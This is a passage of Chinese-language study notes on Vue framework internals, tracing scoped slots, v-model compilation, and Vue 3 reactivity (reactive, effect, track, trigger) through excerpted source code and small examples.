这样处理之后子组件实例 vm.$scopedSlots 就变成了如下：
{
test: function(slotData) {
return [_c('p', [_v("test content " + _s(slotData.testData))])]
}
}
然后调用子组件的 render 函数
(function anonymous() {
with (this) {
return _c('div', [_t("test", null, {
"testData": count
})], 2)
}
})
_t 是 renderSlot，它会去判断是否存在 this.$scopedSlots[name]，也就是这里对应的 this.$scopedSlots.test，如果没有就说明是普通插槽，如果有就说明是具名插槽或作用域插槽。注意 _t 也就是 renderSlot 传递的第三个参数，形参是 bindObject 也就是绑定的子组件的作用域，这里是 {testData: count}，也就是 {testData: 1}。将 bindObject 浅复制了一下生成一个新对象，然后传给 this.$scopedSlots.test 这个函数，然后将其调用结果返回。然后 _t 也就是 renderSlot 的作用就完成了。render 函数会变成下面的样子：
(function anonymous() {
with (this) {
return _c('div', [_c('p', [_v("test content " + _s(1))])], 2)
}
})
这样就把引用的子组件作用域的数据给替换进去了。
下面是 _render 生成的子组件的 vnode
{
tag: "div",
children: [
{
tag: "p",
children: [
{
text: "test content 1"
}
]
}
]
}
之后的流程就是生成 patch 了，和 slot 无关了。
总结
- 普通插槽
- render 方法生成的 vnode，子组件的占位符标签会有 componentOptions.children，children 的内容就是插槽的内容
- 子组件初始化的时候会将子组件的占位符 vnode 的 componentOptions 属性中的 children 设置到子组件对象 vm.$options._renderChildren 上
- 子组件初始化接下来走到 initRender 方法，会将刚才的 vm.$options._renderChildren 加入到子组件 vm.$slots 中的 default 属性中，因为它是普通插槽，没有起名字，所以 default。
- 然后子组件实例化结束，开始走 $mount 流程，先根据 render 方法生成子组件的 vnode，然后再去 patch。生成子组件 vnode 的时候会调用 _t 也就是 renderSlot 函数获取到 vm.$slots.default 返回
- 之后就是 patch 流程了
普通插槽简化解释：编译器解析 template 的生成的 render 函数在生成子组件占位符 vnode 的时候，将插槽内容生成为占位符 vnode 的 componentOptions.children，然后子组件初始化的时候会将占位符 vnode 的 componentOptions.children 的内容转移到 vm.$options._renderChildren 上，后续又转移到 vm.$slots.default 上。等到子组件真的去生成 vnode 的时候，从 vm.$slots.default 取出对应内容，然后生成 vnode，后续走 patch 流程
- 具名插槽和作用域插槽
编译器解析 template 生成的 render 函数会为生成的子组件占位符 vnode 生成 data.scopedSlots，data.scopedSlots 对象的 key 就是具名插槽的名字，value 是一个函数，用于获取到子组件作用域的数据后生成子组件 vnode。子组件 $mount 流程的时候会将 data.scopedSlots 转移到 vm.$scopedSlots 上，之后子组件的 render 方法中插槽的部分会用 _t 方法找到 vm.$scopedSlots 替换进去，然后生成 vnode，后续走 patch 流程
v-model
<body>
<div id="app">
<input type="text" v-model="test">
<div>{{test}}</div>
</div>
</div>
</body>
<script src="./vue.js"></script>
<script>
new Vue({
name: "App",
el: '#app',
data () {
return {
test: 1
}
}
})
</script>
- 编译器在词法分析的时候会调用
src\platforms\web\compiler\modules\model.js中的 preTransformNode 做前置处理，目的是:
<input v-model="data[type]" :type="type">
<!-- 上面这种形式转化为下面 -->
<input v-if="type === 'checkbox'" type="checkbox" v-model="data[type]">
<input v-else-if="type === 'radio'" type="radio" v-model="data[type]">
<input v-else :type="type" v-model="data[type]">
因为 input 的 type 不同，双向绑定需要处理的事件也不同，所以变成这种形式，降低了处理的复杂度。
- 接着 processElement 方法中会调用 processAttrs 处理其他指令，包括 v-bind v-on v-model。处理完 v-model 后将其添加到 el.directives 上。
本例中的 el.directives 如下：
[{
"name": "model",
"rawName": "v-model",
"value": "test",
"arg": null,
"isDynamicArg": false,
"start": 42,
"end": 56
}]
- generate 阶段（根据 AST 生成 render 代码），会调用 genElement ，其中会调用 genData ，genData 中调用了 genDirectives。
function genData (el: ASTElement, state: CodegenState): string {
let data = '{'
// directives first.
// directives may mutate the el's other properties before they are generated.
const dirs = genDirectives(el, state)
if (dirs) data += dirs + ','
}
genDirectives 中先通过 state.directives[dir.name] 拿到 v-model 对应的生成方法，v-model 对应的 model 方法在 src\platforms\web\compiler\directives\model.js 中。因为 input 是 text 普通类型的，所以 model 方法会走到 genDefaultModel(el, value, modifiers) 中。
function model (
el: ASTElement,
dir: ASTDirective,
_warn: Function
) {
else if (tag === 'input' || tag === 'textarea') {
genDefaultModel(el, value, modifiers)
}
}
genDefaultModel 中对于当前例子设置 valueExpression 为 '$event.target.value'，event 为 'input'，意思就是 value 值是 event.target.value，而 addEventListener 绑定的事件为 input 事件。
然后会调用 genAssignmentCode 去生成代码。此处调用为 genAssignmentCode('test', "$event.target.value")。返回值得到 "test=$event.target.value"。然后又命中了 needCompositionGuard，于是变成 "if($event.target.composing)return;test=$event.target.value"（注意：原生事件对象的 event.isComposing 用于判断当前输入处于输入法输入的中途 阶段）。
接下来是关键的两句代码，
addProp(el, 'value', `(${value})`)
addHandler(el, event, code, null, true)
这两句代码使得双向绑定成为现实，通过修改 AST 元素，给 el 添加一个 prop，相当于我们在 input 上动态绑定了 value，又给 el 添加了事件处理，相当于在 input 上绑定了 input 事件，相当于变成了如下：
<input
v-bind:value="test"
v-on:input="test=$event.target.value">
其实就是动态绑定了 input 的 value 指向了 test 变量，并且在触发 input 事件的时候去动态把 test 设置为目标值，这样实际上就完成了数据双向绑定了，所以说 v-model 实际上就是语法糖。
- addProp 之后 el.props（el.props 用于存放绑定的原生 DOM 对象属性）为：
// el.props
[
{
dynamic: undefined
name: "value"
value: "(test)"
}
]
addHandler 之后 el.events（el.events 用于存放事件）为：
// el.events
{
input: {
dynamic: undefined
value: "if($event.target.composing)return;test=$event.target.value"
}
}
然后 genDefaultModel 执行结束，model 也执行结束，又回到还没执行完的 genDirectives 方法，最后 genDirectives 返回的字符串如下：
"directives:[{name:"model",rawName:"v-model",value:(test),expression:"test"}]"
接着 genProps 会生成 domProps:{"value":(test)} 加入到 genData 的字符串中。
然后 genHandlers 会生成 on:{"input":function($event){if($event.target.composing)return;test=$event.target.value}} 加入到 genData 的字符串中。
这两部对应了刚才 addProp addHandler 对 AST 的修改（分别添加了 el.props 和 el.events）。
最后 genElement 的返回值为
"_c('input',{directives:[{name:"model",rawName:"v-model",value:(test),expression:"test"}],attrs:{"type":"text"},domProps:{"value":(test)},on:{"input":function($event){if($event.target.composing)return;test=$event.target.value}}})"
// 转化成对象
_c('input',{
directives:[
{
name:"model",
rawName:"v-model",
value:(test),
expression:"test"
}
],
attrs:{
"type":"text"
},
domProps:{
"value":(test)
},
on:{
"input": function($event){
if($event.target.composing)return;
test=$event.target.value
}
}
})
也就是说最后 render 函数用 _c 创建这个 input 元素的时候其实就会有这些属性。
- 接下来在 patch 的阶段，createElm 会去创建真实的 dom 节点，然后会调用 invokeCreateHooks 函数去循环所有更新 dom 节点属性的函数，主要有下面这些函数：
- updateAttrs
- updateClass
- updateDOMListeners
- updateDOMProps
- updateStyle
- updateDirectives
其中 updateDOMProps 就负责刚才 input 的 domProps，updateDOMListeners 就负责绑定事件。
updateDOMProps 为 input 元素设置 value 属性值。
function updateDOMProps() {
for (key in props) {
if (key === 'value' && elm.tagName !== 'PROGRESS') {
// store value as _value as well since
// non-string values will be stringified
elm._value = cur
// avoid resetting cursor position when value is the same
const strCur = isUndef(cur) ? '' : String(cur)
if (shouldUpdateValue(elm, strCur)) {
elm.value = strCur
}
} else if (
// skip the update if old and new VDOM state is the same.
// `value` is handled separately because the DOM value may be temporarily
// out of sync with VDOM state due to focus, composition and modifiers.
// This #4521 by skipping the unnecesarry `checked` update.
cur !== oldProps[key]
) {
// some property updates can throw
// e.g. `value` on <progress> w/ non-finite value
try {
elm[key] = cur
} catch (e) {}
}
}
}
updateDOMListeners 最后负责绑定事件，其中最后使用 addEventListener 去绑定事件。
function updateDOMListeners (oldVnode: VNodeWithData, vnode: VNodeWithData) {
if (isUndef(oldVnode.data.on) && isUndef(vnode.data.on)) {
return
}
const on = vnode.data.on || {}
const oldOn = oldVnode.data.on || {}
target = vnode.elm
normalizeEvents(on)
updateListeners(on, oldOn, add, remove, createOnceHandler, vnode.context)
target = undefined
}
- 于是当 js 修改 data 中数据值的时候，会通知 watcher 重新渲染，然后重新获取到值绑定到 dom 元素的 value 上。如果输入框输入了其他值，则会触发 input 事件，把 event.target.value 赋值给 data 中数据。
基本概念
编程范式
命令式是关注过程的一种编程范式，它描述了完成一个功能的详细逻辑与步骤。声明式是关注结果的一种编程范式，它并不关心一个功能的详细逻辑与步骤。
命令式 vs 声明式
- 性能
div.innerText = 'hell world!'; // 耗时为 1
<div>{{ msg }}</div> // 耗时为 1 + n
所以 命令式性能 > 声明式性能
- 可维护性
// 命令式
const divEle = document.querySelector('#app');
const subDivEle = divEle.querySelector('div');
const subPEle = subDivEle.querySelector('p');
const msg = 'hello world!';
subPEle.innerHTML = msg;
// 声明式
<div id="app">
<div>
<p>{{ msg }}</p>
</div>
</div>
命令式的可维护性 < 声明式的可维护性
企业应用开发设计原则
企业应用的开发的设计原则考虑两个方面：项目成本和开发体验。
- 决定项目成本的是
开发周期，声明式在可维护性上优于命令式，所以声明式的项目成本更低。 - 声明式的开发体验更好，心智负担更低。
- 框架的设计过程就是一个在可维护性和性能之间不断取舍的过程
vue 中的 html 模板解析做了什么
vue 的模板语法解析成真实的 html 标签，中间做了两件事：
- 编译时 compiler
- 运行时 runtime
运行时
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Document</title>
<script src="https://cdn.bootcdn.net/ajax/libs/vue/3.5.13/vue.global.js"></script>
</head>
<body>
<div id="app"></div>
</body>
<script>
const { render, h } = Vue;
// 生成 vnode
const vnode = h('div', {
class: 'test',
}, 'hello render');
const container = document.querySelector('#app');
// 渲染
render(vnode, container);
</script>
</html>
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Document</title>
</head>
<body>
</body>
<script>
const vnode = {
type: 'div',
props: {
class: 'test'
},
children: 'hello render'
};
// 创建一个 render 函数
function render(vnode) {
const ele = document.createElement(vnode.type);
ele.className = vnode.props.class;
ele.innerText = vnode.children;
document.body.appendChild(ele);
}
render(vnode);
</script>
</html>
运行时就是通过 render 函数把 vnode 渲染成真实 dom 的过程
编译时
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Document</title>
<script src="https://cdn.bootcdn.net/ajax/libs/vue/3.5.13/vue.global.js"></script>
</head>
<body>
<div id="app"></div>
</body>
<script>
const { sompile, createApp } = Vue;
const html = `
<div class="test">hello compiler</div>
`;
const renderFn = compile(html);
const app = createApp({
render: renderFn
});
app.mount('#app');
</script>
</html>
编译时就是把 html 模板编译成 render 函数的过程
编译时 + 运行时
为什么 vue 选择使用编译时+运行时的方式来实现？
-
首先，dom渲染分为两个部分：
- 首次渲染，挂载
- 更新渲染，打补丁
-
当发生更新的时候，有两种方式来实现：
- 删除所有节点，重新生成节点(dom 操作多)
- 删除指定位置节点，然后在新位置插入新节点（涉及 js 计算，少量 dom 操作）
-
dom 操作比 js 计算更加耗费性能
- 针对于
纯运行时而言，因为不存在编译器，所以我们只能够提供一个复杂的 js 对象。 - 针对于
纯编译时而言，因为缺少运行时，所以它只能把分析差异的操作，放到编译时进行，同样因为省略了运行时，所以速度可能会更快。但是这种方式这将损失灵活性，比如 svelte ，它就是一个纯编译时的框架，但是它的实际运行速度可能达不到理论上的速度。 - 运行时+编译时，比如 vue 或 react 都是通过这种方式来进行构建的，使其可以在保持灵活性的基础上，尽量的进行性能的优化，从而达到一种平衡。
副作用
- 副作用是指，对数据进行 setter 或 getter 操作时，产生一系列后果
- 副作用可能是会有多个的
- 举例，比如修改了 ref 响应式变量的值，造成了视图更新，这就是产生了一次副作用
vue3 框架设计概述
vue3 分为三大模块：
- 响应性 reactivity
- 运行时 runtime
- 编译器 compiler
- 三者关系，reactive 处理数据，将数据用 Proxy 代理，当数据触发 getter setter 就会产生对应的副作用。编译器将 html 模板转换成 render 函数。运行时将调用 render 函数生成真实的 dom，以及后续更新 dom 的操作。
源码结构
结构
vue-3.2.37
├─.github
├─.vscode
├─packages // 核心代码
│ ├─compiler-core // 编译器核心代码
│ ├─compiler-dom // 浏览器相关的编译模块
│ ├─compiler-sfc // 单文件组件（.vue）编译模块
│ ├─compiler-ssr // 服务端渲染的编译模块
│ ├─reactivity // 响应式核心模块
│ ├─reactivity-transform // 已过期代码，无需关注
│ ├─runtime-core // 运行时核心代码，针对不同平台进行实现
│ ├─runtime-dom // 基于浏览器的运行时
│ ├─runtime-test // runtime 测试相关
│ ├─server-renderer // 服务端渲染
│ ├─sfc-playground // sfc 工具 https://sfc.vuejs.org
│ ├─shared // 共享的工具类
│ ├─size-check // 测试运行时包大小
│ ├─template-explorer // 提供了一个线上测试 https://template-explorer.vuejs.org 用于把 template 转化为 render
│ ├─vue // 测试，打包之后的 dist 都在这里
│ └─vue-compat // 兼容 vue2 的代码
├─scripts // 配置文件相关
└─test-dts // 测试相关
│ .eslintrc.js
│ .gitignore
│ .prettierrc
│ api-extractor.json // Typescript 的 API 分析工具
│ BACKERS.md // 赞助声明
│ CHANGELOG.md // 更新日志
│ jest.config.js // 测试相关
│ LICENSE // 开源协议
│ netlify.toml // 自动化部署相关
│ package.json
│ pnpm-lock.yaml
│ pnpm-workspace.yaml
│ README.md
│ rollup.config.js // rollup 配置文件
│ SECURITY.md // 报告漏洞，维护安全的声明文件
│ tsconfig.json // TypeScript 配置文件
在 vue 源码中运行测试实例
- 切换 nodejs 到 18, vue-3.2.37 需要 nodejs 18 环境。全局安装 pnpm ，然后 pnpm 装包，装包成功后运行 npm run build
packages\vue\dist目录下就是生成的 vue 库文件packages\vue\examples目录下新建文件夹 xia，写自己的测试实例- 然后使用 vscode 的 live server 插件打开测试页面，即可看到效果
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8" />
<meta name="viewport" content="width=device-width, initial-scale=1.0" />
<title>Document</title>
<script src="../../../dist/vue.global.js"></script>
</head>
<body>
<div id="app"></div>
</body>
<script>
const { reactive, effect } = Vue;
const obj = reactive({ name: "张三" });
effect(() => {
document.querySelector("#app").innerHTML = obj.name;
});
setTimeout(() => {
obj.name = "李四";
}, 2000);
</script>
</html>
debug：为 vue 开启 sourcemap
- 通过
scripts\build.js文件得知，sourcemap 的开启是由 npm script 命令中的 -sourcemap 或者 -s 参数开启的，于是修改一下 build 的命令就可以开启 sourcemap 了
"build": "node scripts/build.js -s",
- 然后在浏览器的 Sources 面板中就可以打断点 debugger 了
如何阅读源码
- 摒弃边缘情况，仅阅读核心逻辑
- 跟随一条主线
创建自己的 vue-next-mini 搭建框架
-
创建 vue-next-mini 文件夹，npm init 初始化，创建对应 packages 文件夹
-
全局安装 typescript，初始化 tsconfig.json 文件，并为 packages 目录下所有模块都创建 src/index.ts 文件
// 全局安装 typescript npm install -g typescript // 初始化 tsconfig.json 文件 tsc -init -
引入 prettier 保证代码格式
- vscode 插件市场安装
Prettier - Code formatter插件 - 根目录下创建
.prettierrc配置文件{ "semi": true, "singleQuote": true, "printWidth": 80, "trailingComma": "all", "arrowParens": "avoid" }
- vscode 插件市场安装
-
新建 rollup.config.js 文件
import commonjs from "@rollup/plugin-commonjs"; import resolve from "@rollup/plugin-node-resolve"; import typescript from "@rollup/plugin-typescript"; export default [ { input: "packages/vue/src/index.ts", // 入口文件 output: [ { sourcemap: true, // 开启 sourcemap file: "./packages/vue/dist/vue.js", // 导出文件地址 format: "iife", // 出口文件 导出一个 iife 格式的包 name: "Vue", // 变量名 }, ], plugins: [ typescript({ // ts sourceMap: true, }), resolve(), // 模块导入路径补全 commonjs(), // 转换 commonjs 为 esm ], }, ]; -
在 tsconfig.js 中配置路径映射
{ "baseUrl": ".", "paths": { // 指定路径映射 "@vue/*": [ "packages/*/src" ] }, }
响应式核心原则
Object.defineProperty
let count = 2;
let product = {
price: 10,
count: count,
};
let total = 0;
let effect = () => {
total = product.price * product.count;
};
effect();
console.log(`总价格：${total}`);
Object.defineProperty(product, "count", {
set(newValue) {
count = newValue;
effect();
},
get() {
return count;
},
});
Object.defineProperty 的缺陷
-
当为
对象新增一个没有在 data 中声明的属性时，新增的属性不是响应式的 -
当为
数组通过下标的形式新增一个元素时，新增的元素不是响应式的 -
因为 Object.defineProperty 只能为对象中已存在的属性设置 getter 和 setter ，而无法监听
对象新增属性，所以新增的属性将失去响应性 -
vue2 中解决这个问题可以使用 Vue.set() 或 this.$set()，或者重新为对象赋值，数组可以使用那几个变异方法，也就是会改变原数组的方法，例如 splice push pop 等，这些数组变异方法被 vue2 低层改写了，会为新增元素增加响应式
Proxy
let count = 2;
let product = {
price: 10,
count: count,
};
// 只有代理对象才能触发 getter 和 setter
const proxyProduct = new Proxy(product, {
set(target, key, newVal, receiver) {
target[key] = newVal;
effect();
return true;
},
get(target, key, reveiver) {
return target[key];
},
});
let total = 0;
let effect = () => {
total = proxyProduct.price * proxyProduct.count;
};
effect();
console.log(`总价格：${total}`);
- Proxy
- Proxy 将代理一个对象（被代理对象），得到一个新对象（代理对象），同时拥有被代理对象中所有属性
- 当想要修改对象的指定属性时，我们应该使用
代理对象进行修改 代理对象的任何一个属性都可以触发 handler 的 getter 和 setter
- Object.defineProperty
- Object.defineProperty 为指定对象的指定属性设置属性描述符
- 当想要修改对象的指定属性时，可以使用原对象进行修改
- 通过属性描述符，只有
被监听的指定属性才能触发 getter 和 setter
Reflect
const p1 = {
lastName: "张",
firstName: "三",
get fullName() {
return this.lastName + this.firstName;
},
};
const p2 = {
lastName: "李",
firstName: "四",
get fullName() {
return this.lastName + this.firstName;
},
};
console.log(p1.fullName); // 张三
console.log(Reflect.get(p1, "fullName")); // 张三
console.log(Reflect.get(p1, "fullName", p2)); // 李四
const p1 = {
lastName: "张",
firstName: "三",
get fullName() {
console.log(this);
return this.lastName + this.firstName;
},
};
const proxy = new Proxy(p1, {
get(target, key, receiver) {
console.log("getter 行为触发");
// return target[key]
return Reflect.get(target, key, receiver);
},
});
console.log(proxy.fullName);
- 当我们期望监听代理对象的 getter 和 setter 时，
不应该使用 target[key], 因为它在某些时刻是不可靠的（比如 fullName）。二应该使用 Reflect，借助它的 getter 和 setter，使用 receiver（Proxy 实例）作为 this，以达到期望的结果（触发三次 getter）。 - 一旦在被代理对象内部，通过 this 触发 getter 和 setter 时，也需要被监听，必须使用 Reflect
响应式源码
reactive 源码跟踪
const { reactive, effect } = Vue;
const obj = reactive({ name: '张三' });
effect(() => {
document.querySelector('#app').innerHTML = obj.name;
});
setTimeout(() => {
obj.name = '李四';
}, 2000);
reactive 源码有两条主线：
- reactive 做了什么？
- effect 是什么？
reactive
-
packages\reactivity\src\reactive.ts触发 reactive 方法/** * Creates a reactive copy of the original object. * * The reactive conversion is "deep"—it affects all nested properties. In the * ES2015 Proxy based implementation, the returned proxy is **not** equal to the * original object. It is recommended to work exclusively with the reactive * proxy and avoid relying on the original object. * * A reactive object also automatically unwraps refs contained in it, so you * don't need to use `.value` when accessing and mutating their value: * * ```js * const count = ref(0) * const obj = reactive({ * count * }) * * obj.count++ * obj.count // -> 1 * count.value // -> 1 * ``` */ export function reactive<T extends object>(target: T): UnwrapNestedRefs<T>; export function reactive(target: object) { // if trying to observe a readonly proxy, return the readonly version. if (isReadonly(target)) { return target; } return createReactiveObject( target, false, mutableHandlers, mutableCollectionHandlers, reactiveMap ); } -
packages\reactivity\src\reactive.ts调用 createReactiveObject 创建 reactive 对象function createReactiveObject( target: Target, isReadonly: boolean, baseHandlers: ProxyHandler<any>, collectionHandlers: ProxyHandler<any>, proxyMap: WeakMap<Target, any> ) { if (!isObject(target)) { if (__DEV__) { console.warn(`value cannot be made reactive: ${String(target)}`); } return target; } // target is already a Proxy, return it. // exception: calling readonly() on a reactive object if ( target[ReactiveFlags.RAW] && !(isReadonly && target[ReactiveFlags.IS_REACTIVE]) ) { return target; } // target already has corresponding Proxy const existingProxy = proxyMap.get(target); if (existingProxy) { return existingProxy; } // only specific value types can be observed. const targetType = getTargetType(target); if (targetType === TargetType.INVALID) { return target; } const proxy = new Proxy( target, targetType === TargetType.COLLECTION ? collectionHandlers : baseHandlers ); proxyMap.set(target, proxy); return proxy; } -
createReactiveObject中进入 new Proxy- 第一个参数 target 被代理的原始对象
- 第二个参数 handler targetType 是 1，TargetType.COLLECTION 是 2，所以 handler 为 baseHandlers
-
baseHandlers是传递给createReactiveObject的第三个参数mutableHandlers -
packages\reactivity\src\baseHandlers.tsmutableHandlers定义，mutableHandlers包含了 getter 和 setter 方法export const mutableHandlers: ProxyHandler<object> = { get, set, deleteProperty, has, ownKeys, }; -
createReactiveObject接着执行了proxyMap.set(target, proxy)存下被代理对象和代理对象到 map 中，接着返回了代理对象，这样 reactive 的执行就结束了
- 由以上得知，reactive 做了 3 件事
- 创建了 proxy
- 把 proxy 存到 proxyMap 里
- 返回 proxy
effect
-
packages\reactivity\src\effect.tseffect 方法export function effect<T = any>( fn: () => T, options?: ReactiveEffectOptions ): ReactiveEffectRunner { if ((fn as ReactiveEffectRunner).effect) { fn = (fn as ReactiveEffectRunner).effect.fn; } const _effect = new ReactiveEffect(fn); if (options) { extend(_effect, options); if (options.scope) recordEffectScope(_effect, options.scope); } if (!options || !options.lazy) { _effect.run(); } const runner = _effect.run.bind(_effect) as ReactiveEffectRunner; runner.effect = _effect; return runner; } -
执行了
const _effect = new ReactiveEffect(fn);，其中 fn 就是我们传递给 effect 的匿名函数- 这里的
ReactiveEffect类，查看其内部，得知实现了run和stop方法
- 这里的
-
effect 方法接着执行了 ReactiveEffect 实例的 run 方法
-
activeEffect = thisactiveEffect 为当前传入 fn 生成的 ReactiveEffect 实例 -
然后执行
return this.fn()，也就是执行传入的匿名函数，() => {document.querySelector("#app").innerHTML = obj.name;}run() { if (!this.active) { return this.fn() } let parent: ReactiveEffect | undefined = activeEffect let lastShouldTrack = shouldTrack while (parent) { if (parent === this) { return } parent = parent.parent } try { this.parent = activeEffect activeEffect = this shouldTrack = true trackOpBit = 1 << ++effectTrackDepth if (effectTrackDepth <= maxMarkerBits) { initDepMarkers(this) } else { cleanupEffect(this) } return this.fn() } finally { if (effectTrackDepth <= maxMarkerBits) { finalizeDepMarkers(this) } trackOpBit = 1 << --effectTrackDepth activeEffect = this.parent shouldTrack = lastShouldTrack this.parent = undefined if (this.deferStop) { this.stop() } } }
-
-
这时
() => {document.querySelector("#app").innerHTML = obj.name;}执行的时候，以为 obj 是 proxy，会执行 obj.name 会触发 getter，会执行mutableHandlers的 getter-
getter 中会触发
const res = Reflect.get(target, key, receiver)，这时候获取到的 res 是张三 -
然后会触发
track(target, TrackOpTypes.GET, key)function createGetter(isReadonly = false, shallow = false) { return function get( target: Target, key: string | symbol, receiver: object ) { if (key === ReactiveFlags.IS_REACTIVE) { return !isReadonly; } else if (key === ReactiveFlags.IS_READONLY) { return isReadonly; } else if (key === ReactiveFlags.IS_SHALLOW) { return shallow; } else if ( key === ReactiveFlags.RAW && receiver === (isReadonly ? shallow ? shallowReadonlyMap : readonlyMap : shallow ? shallowReactiveMap : reactiveMap ).get(target) ) { return target; } const targetIsArray = isArray(target); if ( !isReadonly && targetIsArray && hasOwn(arrayInstrumentations, key) ) { return Reflect.get(arrayInstrumentations, key, receiver); } const res = Reflect.get(target, key, receiver); if ( isSymbol(key) ? builtInSymbols.has(key) : isNonTrackableKeys(key) ) { return res; } if (!isReadonly) { track(target, TrackOpTypes.GET, key); } if (shallow) { return res; } if (isRef(res)) { // ref unwrapping - skip unwrap for Array + integer key. return targetIsArray && isIntegerKey(key) ? res : res.value; } if (isObject(res)) { // Convert returned value into a proxy as well. we do the isObject check // here to avoid invalid value warning. Also need to lazy access readonly // and reactive here to avoid circular dependency. return isReadonly ? readonly(res) : reactive(res); } return res; }; }
-
-
track 函数是重点。
- 回想 3-1 的时候，activeEffect 为当前传入 fn 生成的 ReactiveEffect 实例
- 首先为 targetMap 设置值，key 是被代理对象（{name: '张三'}），value 是 depsMap，一个新的 map
- depsMap 也设置值，key 是被代理对象的属性 name，value 是 createDep 创建的一个 set
- 接着执行
trackEffects(dep, eventInfo)，其中 eventInfo 是一个包含 4 个属性的对象，其中 effect 属性就是 activeEffect，也就是传入匿名函数生成的 ReactiveEffect 实例 - trackEffects 内部做了两件事，为 dep（
targetMap[target][key]得到的 set 实例）添加 activeEffect 函数；为 activeEffect 函数的静态属性 deps 增加一个值 dep - 这里做的事情就是建立 dep 和 activeEffect 的联系，当响应对象的属性发生变化的时候，就可以通过 targetMap 找到对应联系的 ReactiveEffect 然后去执行
export function track(target: object, type: TrackOpTypes, key: unknown) { if (shouldTrack && activeEffect) { let depsMap = targetMap.get(target); if (!depsMap) { targetMap.set(target, (depsMap = new Map())); } let dep = depsMap.get(key); if (!dep) { depsMap.set(key, (dep = createDep())); } const eventInfo = __DEV__ ? { effect: activeEffect, target, type, key } : undefined; trackEffects(dep, eventInfo); } } export function trackEffects( dep: Dep, debuggerEventExtraInfo?: DebuggerEventExtraInfo ) { let shouldTrack = false; if (effectTrackDepth <= maxMarkerBits) { if (!newTracked(dep)) { dep.n |= trackOpBit; // set newly tracked shouldTrack = !wasTracked(dep); } } else { // Full cleanup mode. shouldTrack = !dep.has(activeEffect!); } if (shouldTrack) { dep.add(activeEffect!); activeEffect!.deps.push(dep); if (__DEV__ && activeEffect!.onTrack) { activeEffect!.onTrack({ effect: activeEffect!, ...debuggerEventExtraInfo!, }); } } } -
createGetter 最后返回了 res 值，即
张三，effect 执行完成
- effect 主要做了 3 件事情
- 生成传入匿名函数的 ReactiveEffect 实例
- 触发匿名函数 fn 激活 getter
- getter 中建立 targetMap 和 ReactiveEffect 的联系
- dep.add(activeEffect)
- activeEffect.deps.push(dep)
触发 setter
-
2 秒之后触发 setter，
packages\reactivity\src\baseHandlers.ts的 createSetter 函数。function createSetter(shallow = false) { return function set( target: object, key: string | symbol, value: unknown, receiver: object ): boolean { let oldValue = (target as any)[key]; if (isReadonly(oldValue) && isRef(oldValue) && !isRef(value)) { return false; } if (!shallow && !isReadonly(value)) { if (!isShallow(value)) { value = toRaw(value); oldValue = toRaw(oldValue); } if (!isArray(target) && isRef(oldValue) && !isRef(value)) { oldValue.value = value; return true; } } else { // in shallow mode, objects are set as-is regardless of reactive or not } const hadKey = isArray(target) && isIntegerKey(key) ? Number(key) < target.length : hasOwn(target, key); const result = Reflect.set(target, key, value, receiver); // don't trigger if target is something up in the prototype chain of original if (target === toRaw(receiver)) { if (!hadKey) { trigger(target, TriggerOpTypes.ADD, key, value); } else if (hasChanged(value, oldValue)) { trigger(target, TriggerOpTypes.SET, key, value, oldValue); } } return result; }; } -
oldValue 是
张三，value 是李四，执行const result = Reflect.set(target, key, value, receiver);修改 obj.name 为李四，然后触发trigger(target, TriggerOpTypes.SET, key, value, oldValue);，这时候 trigger 的参数为：- target {name: '李四'}
- key 'name'
- value '李四'
- oldValue '张三'
-
trigger 重点函数。
-
const depsMap = targetMap.get(target);首先找到 targetMap 中的数据，然后deps.push(depsMap.get(key));获取到 set 实例，然后触发triggerEffects(deps[0], eventInfo); -
triggerEffects 遍历了 set 实例，然后为每个 fn 函数触发 triggerEffect，最终调用了 ReactiveEffect 实例的 run 方法。run 方法中为
activeEffect = this设置 activeEffect 为当前 reactiveEffect 实例，然后调用了 this.fn()。这时() => {document.querySelector("#app").innerHTML = obj.name;}执行，页面的内容变成李四export function trigger( target: object, type: TriggerOpTypes, key?: unknown, newValue?: unknown, oldValue?: unknown, oldTarget?: Map<unknown, unknown> | Set<unknown> ) { const depsMap = targetMap.get(target); if (!depsMap) { // never been tracked return; } let deps: (Dep | undefined)[] = []; if (type === TriggerOpTypes.CLEAR) { // collection being cleared // trigger all effects for target deps = [...depsMap.values()]; } else if (key === 'length' && isArray(target)) { depsMap.forEach((dep, key) => { if (key === 'length' || key >= (newValue as number)) { deps.push(dep); } }); } else { // schedule runs for SET | ADD | DELETE if (key !== void 0) { deps.push(depsMap.get(key)); } // also run for iteration key on ADD | DELETE | Map.SET switch (type) { case TriggerOpTypes.ADD: if (!isArray(target)) { deps.push(depsMap.get(ITERATE_KEY)); if (isMap(target)) { deps.push(depsMap.get(MAP_KEY_ITERATE_KEY)); } } else if (isIntegerKey(key)) { // new index added to array -> length changes deps.push(depsMap.get('length')); } break; case TriggerOpTypes.DELETE: if (!isArray(target)) { deps.push(depsMap.get(ITERATE_KEY)); if (isMap(target)) { deps.push(depsMap.get(MAP_KEY_ITERATE_KEY)); } } break; case TriggerOpTypes.SET: if (isMap(target)) { deps.push(depsMap.get(ITERATE_KEY)); } break; } } const eventInfo = __DEV__ ? { target, type, key, newValue, oldValue, oldTarget } : undefined; if (deps.length === 1) { if (deps[0]) { if (__DEV__) { triggerEffects(deps[0], eventInfo); } else { triggerEffects(deps[0]); } } } else { const effects: ReactiveEffect[] = []; for (const dep of deps) { if (dep) { effects.push(...dep); } } if (__DEV__) { triggerEffects(createDep(effects), eventInfo); } else { triggerEffects(createDep(effects)); } } } export function triggerEffects( dep: Dep | ReactiveEffect[], debuggerEventExtraInfo?: DebuggerEventExtraInfo ) { // spread into array for stabilization const effects = isArray(dep) ? dep : [...dep]; for (const effect of effects) { if (effect.computed) { triggerEffect(effect, debuggerEventExtraInfo); } } for (const effect of effects) { if (!effect.computed) { triggerEffect(effect, debuggerEventExtraInfo); } } } function triggerEffect( effect: ReactiveEffect, debuggerEventExtraInfo?: DebuggerEventExtraInfo ) { if (effect !== activeEffect || effect.allowRecurse) { if (__DEV__ && effect.onTrigger) { effect.onTrigger(extend({ effect }, debuggerEventExtraInfo)); } if (effect.scheduler) { effect.scheduler(); } else { effect.run(); } } }
-
- setter 主要做了 2 件事
- 修改 obj.name 的值
